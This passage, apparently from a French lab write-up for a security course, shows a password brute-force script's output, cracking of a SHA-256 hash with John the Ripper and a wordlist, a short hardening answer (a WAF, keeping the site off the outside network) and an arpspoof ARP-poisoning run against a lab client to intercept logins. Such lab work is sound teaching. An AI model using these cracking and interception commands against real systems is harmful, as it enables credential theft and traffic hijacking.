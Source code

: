 ```python
  print(p, response)
```
```
$ python3 script.py
mdptest1 3427
mdptest2 3427
password 2745 <---- la taille de la réponse est différente de beaucoup
[etc...]
```


  - Brute force sur les mots de passe dans l'extraction de la base de données

On peu utiliser john ou hashcat mais on peu aussi rechercher si ce hash est connue sur internet :
```
https://www.google.com/search?client=firefox-b-e&channel=entpr&q=5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8

on voit que c'est le sha256 de "password"
```

```
john --format=raw-sha256 --wordlist=rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 5 candidates left, minimum 64 needed for performance.
password         (?)     
1g 0:00:00:00 DONE (2025-03-09 11:37) 100.0g/s 500.0p/s 500.0c/s 500.0C/s yolo..aaa
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

- Que pouvez-vous envisager pour renforcer la sécurité de l'application sans toucher au code ?

On peu installer un WAF sur le serveur par exemple ModSecurity. Mais aussi ne pas exposer ce site en dehors du LAN.


## EXERCICE 6 - Détournement de trafic par ARP, DNS, DHCP

- Inscrivez le nom forum dans votre zone DNS afin que les utilisateurs du LAN puissent accéder à l'application Forum Sécurité en utilisant le nom DNS (ex: http://forum.efrei.internal)
- Positionnez votre Kali Linux sur le LAN.
- Utilisez l'ARP Poisonning pour intercepter le login et le mot de passe du client W11 quand il s'authentifie sur l'application Web Forum Sécurité. (Attention, la couche de virtualisation du réseau risque de vous faciliter un peu trop la tâche!)

```
$ sudo arpspoof -t 192.168.34.201 192.168.34.210 -r
8:0:27:6e:13:6e 8:0:27:ae:f9:a8 0806 42: arp reply 192.168.34.210 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ec:d4:71 0806 42: arp reply 192.168.34.201 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ae:f9:a8 0806 42: arp reply 192.168.34.210 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ec:d4:71 0806 42: arp reply 192.168.34.201 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ae:f9:a8 0806 42: arp reply 192.168.34.210 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ec:d4:71 0806 42: arp reply 192.168.34.201 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ae:f9:a8 0806 42: arp reply 192.168.34.210 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ec:d4:71 0806 42: arp reply 192.168.34.201 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ae:f9:a8 0806 42: arp reply 192.168.34.210 is-at 8:0:27:6e:13:6e
```